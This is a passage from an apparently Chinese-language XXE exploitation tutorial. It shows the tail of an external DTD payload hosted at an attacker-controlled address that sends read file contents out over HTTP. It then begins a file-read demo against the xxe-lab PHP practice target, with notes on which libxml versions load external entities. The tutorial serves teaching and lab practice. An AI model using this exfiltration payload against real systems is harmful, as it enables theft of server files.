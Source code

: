     
    
    http://172.17.21.165:8000/evil.txt文件
     <!ENTITY % all "<!ENTITY send SYSTEM 'http://172.17.21.165:8000/a=%fileparam;'>" >
    
    
    ```

## XXE漏洞利用实例

#### 4.1、文件读取（有回显）

[xxe-lab](https://github.com/c0ny1/xxe-lab)的php靶场演示：

**读取文件时无特殊符号**

注意：这里我们要求php版本为5.2，5.3，5.4，因为他们的libxml版本为2.7.7，2.7.8
允许加载外部实体，libxml版本在2.9.1之后，默认是不解析外部实体

<img src="XXE.assets/image-20211128144735903.png" alt="image-20211128144735903" style="zoom: 50%;" />

我们使用brupsuite抓包看看
